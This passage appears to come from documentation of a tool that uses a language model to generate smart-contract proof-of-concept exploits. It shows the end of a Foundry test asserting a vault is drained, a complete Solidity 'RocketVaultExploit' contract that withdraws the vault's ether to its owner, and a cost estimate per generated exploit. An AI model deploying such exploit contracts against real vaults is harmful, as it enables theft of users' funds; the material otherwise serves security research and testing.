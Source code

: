 ```solidity
        vm.stopPrank();
        
        // Verify exploit success
        assertEq(address(vault).balance, 0, "Vault should be drained");
        assertGt(attacker.balance, attackerBalanceBefore, "Attacker should have stolen funds");
        
        emit log_named_uint("Stolen amount (ETH)", attacker.balance - attackerBalanceBefore);
    }
}
```

### LLM-Generated Exploit:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

contract RocketVaultExploit {
    address public owner;
    RocketVault public vault;
    
    constructor(address _vault) {
        owner = msg.sender;
        vault = RocketVault(payable(_vault));
    }
    
    // Step 1: Called after governance upgrade
    function drainVault() external {
        require(msg.sender == owner, "Only owner");
        
        // This function can now be called because governance
        // upgraded this contract as a "network contract"
        uint256 balance = vault.balanceOf("rocketDeposit");
        vault.withdrawEther(balance);
        
        // Transfer stolen funds
        payable(owner).transfer(address(this).balance);
    }
    
    receive() external payable {}
}
```

---

## 💰 Cost Analysis

### Per PoC Generation:

**LLM Calls:**
- 1x GPT-4.1 Mini call (~2000 tokens input, ~1500 tokens output)
- Estimated cost: **$0.01 - $0.05 per PoC**
